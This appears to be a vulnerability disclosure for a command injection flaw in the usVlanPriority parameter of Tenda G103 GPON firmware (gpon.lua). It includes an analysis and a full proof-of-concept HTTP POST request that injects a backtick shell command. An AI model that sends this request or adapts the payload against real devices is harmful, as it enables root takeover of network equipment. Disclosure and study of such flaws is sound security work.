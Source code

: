 # Tenda G103 Command Injection Vulnerability in `usVlanPriority` Parameter of `action_set_net_settings` (gpon.lua)

## Overview

A command injection vulnerability exists in the `action_set_net_settings` function within the `gpon.lua` file of Tenda G103 GPON optical network terminals. This vulnerability arises due to improper sanitization of the `usVlanPriority` parameter, which is directly concatenated into system commands when `modeOption` is set to 2 or 3 (manual VLAN mode). Authenticated attackers can exploit this flaw to execute arbitrary system commands with root privileges, leading to potential full device compromise.

The environment can be simulated using FirmAE:



![FirmAE Emulation 1](./imgs/1.png)



![FirmAE Emulation 2](./imgs/2.png)

## Details



*   **Vendor**: Tenda

*   **Product**: Tenda G103 GPON Optical Network Terminal

*   **Firmware Version**: US\_G103V1.0la\_V1.0.0.5\_TDC01

*   **Firmware Download**: [https://tenda.com](https://tenda.com.cn/material/show/2615)[.cn/m](https://tenda.com.cn/material/show/2615)[ateri](https://tenda.com.cn/material/show/2615)[al/sh](https://tenda.com.cn/material/show/2615)[ow/26](https://tenda.com.cn/material/show/2615)[15](https://tenda.com.cn/material/show/2615)

*   **Affected Component**: `gpon.lua` (LuCI controller)

*   **Affected Function**: `action_set_net_settings`

*   **Affected Parameter**: `usVlanPriority`

*   **Trigger Condition**: `modeOption` must be set to 2 or 3 (manual VLAN configuration mode)

*   **Vulnerability Type**: Command Injection

*   **Impact**: Arbitrary command execution, VLAN configuration tampering, network traffic manipulation, or complete device takeover

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Vulnerability Analysis

The `action_set_net_settings` function processes the `usVlanPriority` parameter, which configures the priority of user-side VLAN tags. A critical security flaw exists: when `modeOption` is set to 2 or 3, the `usVlanPriority` parameter is directly passed to the `fw_setenv` system command without sanitization or validation.

Key vulnerable code in `gpon.lua`:



![Vulnerable Code Snippet](./imgs/3.png)






Attackers can inject arbitrary commands by embedding shell metacharacters (e.g., backticks `` ` ``, semicolons `;`, or `&&`) in the `usVlanPriority` parameter. Since these characters are not filtered, the injected payload is parsed and executed by the system shell when the command runs—specifically when `modeOption` is set to 2 or 3.

## Proof of Concept (PoC)

### Execute `touch` to Create a Test File



```
POST /cgi-bin/luci/;stok=ffa53ec8dc7db8ad4842c6e91589c8e9/admin/gpon/set-net-settings HTTP/1.1
Host: 192.168.0.1
Content-Length: 74
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: \*/\*
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Origin: http://192.168.0.1
Referer: http://192.168.0.1/cgi-bin/luci/;stok=ffa53ec8dc7db8ad4842c6e91589c8e9/admin/gpon
Accept-Encoding: gzip, deflate, br
Cookie: isLogin=true; sysauth=1db9fe0d814594958dc79f73fa79196d; sysauth=; repeatTimes=2; isLogin=true
Connection: keep-alive

&authSerialNo=&modeOption=3&usVlanId=0&usVlanPriority=1`touch$IFS/tmp/usVlanPriority.txt`&oltType=0&dhcpen=0
```

#### Execution Steps:



1.  Send the POST request above with `modeOption=3` (to trigger manual VLAN mode), a valid `stok`, and authentication cookies.

2.  Access the device (via CLI, telnet, or another injected command) and verify the existence of `/tmp/usVlanPriority.txt`.

#### Expected Result:

The file `/tmp/usVlanPriority.txt` is created, confirming successful execution of the injected `touch` command.



![PoC Result 1](./imgs/4.png)



![PoC Result 2](./imgs/5.png)

